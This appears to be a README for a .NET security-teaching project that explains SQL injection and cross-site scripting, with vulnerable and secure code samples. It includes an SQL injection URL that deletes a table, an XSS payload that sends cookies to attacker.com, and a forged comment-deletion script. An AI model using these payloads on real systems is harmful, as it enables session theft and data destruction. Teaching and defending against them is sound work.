 # Typical web app security vulnerabilities
## Injection
Injection flaws are very prevalent, particularly in legacy code. Injection vulnerabilities are often found in SQL, LDAP, XPath, or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages, and ORM queries.
Injection flaws are easy to discover when examining code. Scanners and fuzzers can help attackers find injection flaws.
Injection can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, or denial of access. Injection can sometimes lead to complete host takeover.

### Protection
* use entity framework Linq Queries
* don't set params directly into SQL string

### Sql Injection sample
Scenario #1: An application uses untrusted data in the construction of the following vulnerable SQL call:

```var sql = "SELECT * FROM product WHERE sku='{sku}' LIMIT 1";```

Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, 
(e.g. EF Core FromSql Method):

```
SecurityWeakness.Infrastructure.SQL.NotSecureProductSqlRepository:

public Product GetSingleBySku(string sku)
{
    var sql = $"SELECT * FROM product WHERE sku='{sku}' LIMIT 1";
    return context.Products.FromSql(sql).ToArray().Single();
}
```

In both cases, the attacker modifies the ‘sku’ parameter value in their browser to send:

``` 
http://localhost:62384/NotSecureProducts/Product?sku=p2';DELETE from product;SELECT '1
```

This changes the meaning of both queries to delete all the records from the product table. More dangerous attacks could modify or delete data, or even invoke stored procedures.

### Secure sample
Rewrite code using Linq Query, or use parameterization for raw SQL queries 
```
SecurityWeakness.Infrastructure.SQL.SecureProductSqlRepository:
public Product GetSingleBySku(string sku)
{
    return context.Products.FromSql($"SELECT * FROM {TableName} WHERE sku={{0}} LIMIT 1", sku).ToArray().Single();
}
```

## Broken Authentication and Session Management

## Cross-Site Scripting (XSS)
Cross Site Scripting (XSS) is a widespread vulnerability that affects many web applications. XSS attacks consist of injecting malicious client-side scripts into a website and using the website as a propagation method.
XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are two different types of XSS flaws: 1) Stored and 2) Reflected, and each of these can occur on the a) Server or b) on the Client.

Detection of most Server XSS flaws is fairly easy via testing or code analysis. Client XSS is very difficult to identify.

Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc.

### Protection
* protect web inputs with HTML sanitizers
* remove un secure htmltags (style,script etc) before save in database
* protect cookies with Secure and Http only attributes in http header

### Xss Attack sample
* Hijack a user’s session
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";```

The attacker modifies the 'CC' parameter in their browser to:

```'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.```

* **asp.net core** protect it cookie from this kind of vulnerability, to enable cookie for document.cookie you need set ``` options.Cookie.HttpOnly=false```
```
    services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.HttpOnly = true;
    });
```

This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See A8 for info on CSRF.

* Perform unauthorized activities
If the HTTPOnly cookie attribute is set, we cannot steal the cookies through JavaScript. However, using the XSS attack, we can still perform unauthorized actions inside the application on behalf of the user.
```
  <script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:62384/NotSecureProducts/DeleteComment',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('sku=p1&productid=1&commentid=1');
</script>
```

* Phishing to steal user credentials
XSS can also be used to inject a form into the vulnerable page and use this form to collect user credentials. This type of attack is called phishing.

* Capture the key strokes by injecting a keylogger
In this attack scenario we will inject a JavaScript keylogger into the vulnerable web page and we will capture all the key strokes of the user within the current page.

First of all, we will create a separate JavaScript file and we will host it on the attacker controlled server. We need this file because the payload is too big to be inserted in the URL and we avoid encoding and escaping errors

## Broken Access Control
## Security Misconfiguration
## Sensitive Data Exposure
## Cross-Site Request Forgery (CSRF)
## Using Components with Known Vulnerabilities
Known vulnerabilities are vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers. 
From the moment of publication , a vulnerability can be exploited by hackers who find the documentation. According to OWASP, the problem of using components with known vulnerabilities is highly prevalent

## Resources
* [OWASP .NET](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DotNet_Security_Cheat_Sheet.md)
* [ASP.NET Core Security](https://docs.microsoft.com/en-us/aspnet/core/security/?view=aspnetcore-2.2)
* [OWASP Top Ten 2017](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project)
* [Cross Site Scripting (XSS)](https://blog.sucuri.net/2019/01/owasp-top-10-security-risks-part-iv.html)
* [Cross Site Scripting (XSS) Asp net core](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-2.2)
* [xss-attacks-practical-scenarios](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [HTTP only, Secure cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

